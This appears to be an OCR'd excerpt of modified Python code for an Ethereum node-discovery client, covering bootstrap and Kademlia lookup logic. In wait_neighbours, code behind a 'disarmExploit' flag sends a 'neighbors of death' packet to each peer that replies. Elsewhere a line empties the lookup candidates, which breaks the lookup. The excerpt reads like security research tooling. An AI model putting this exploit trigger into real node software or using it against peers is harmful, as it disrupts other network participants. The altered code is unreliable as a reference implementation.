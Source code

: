 ```python
            else:
                self.logger.info(
                    "Bonded with %d bootstrap nodes, performing initial lookup", successful_bonds)

            while True:
                await self.lookup_random()
                print("--------------- new bootstrap round")

    async def wait_neighbours(self, remote: NodeAPI) -> Tuple[NodeAPI, ...]:
        new_neighbors = await super().wait_neighbours(remote)
        print("received (", len(new_neighbors), ") *entries* (pot. dupes) neighbours from peer", remote) # most recently added node
        print("SEND UNSOLICITED NEIGHBORS of DEATH")
        if(disarmExploit):
            self.send_neighbours_v4_of_death(remote) # disarm this
        return new_neighbors

    async def _lookup(self, target_key: bytes) -> Tuple[NodeAPI, ...]:
        if len(target_key) != constants.KADEMLIA_PUBLIC_KEY_SIZE // 8:
            raise ValueError(f"Invalid lookup target ({target_key!r}). Length is not 64")
        target_id = NodeID(keccak(target_key))
        nodes_asked: Set[NodeAPI] = set()
        nodes_seen: Set[NodeAPI] = set()

        async def _find_node(target: bytes, remote: NodeAPI) -> Tuple[NodeAPI, ...]:
            self.send_find_node_v4(remote, target)
            candidates = await self.wait_neighbours(remote)
            candidates = []
            if not candidates:
                self.logger.debug("got no candidates from %s, returning", remote)
                return tuple()
            all_candidates = tuple(c for c in candidates if c not in nodes_seen)
            candidates = tuple(
                c for c in all_candidates
                if (not self.ping_channels.already_waiting_for(c) and
                    not self.pong_channels.already_waiting_for(c))
            )
            if not candidates:
                print("no new candidates, falling back to all received candidates")
                candidates = all_candidates
            print("received (", len(candidates), ") *new* from peer", remote) # most recently added node
            print("total:", len(list(self.iter_nodes())))
            self.logger.debug2("got %s new candidates", len(candidates))
            # Ensure all received candidates are in our DB so that we can bond with them.
            self._ensure_nodes_are_in_db(candidates)
            # Add new candidates to nodes_seen so that we don't attempt to bond with failing ones
            # in the future.
            nodes_seen.update(candidates)
            bonded = await trio_utils.gather(*((self.bond, c.id) for c in candidates))
            self.logger.debug2("bonded with %s candidates", bonded.count(True))
            return tuple(c for c in candidates if bonded[candidates.index(c)])

        def _exclude_if_asked(nodes: Iterable[NodeAPI]) -> List[NodeAPI]:
            nodes_to_ask = list(set(nodes).difference(nodes_asked))
            return sort_by_distance(nodes_to_ask, target_id)[:constants.KADEMLIA_FIND_CONCURRENCY]

        closest = list(self.get_neighbours(target_id))
        self.logger.debug("starting lookup; initial neighbours: %s", closest)
        nodes_to_ask = _exclude_if_asked(closest)
        if not nodes_to_ask:
            self.logger.warning("No nodes found in routing table, can't perform lookup")
            return tuple()
```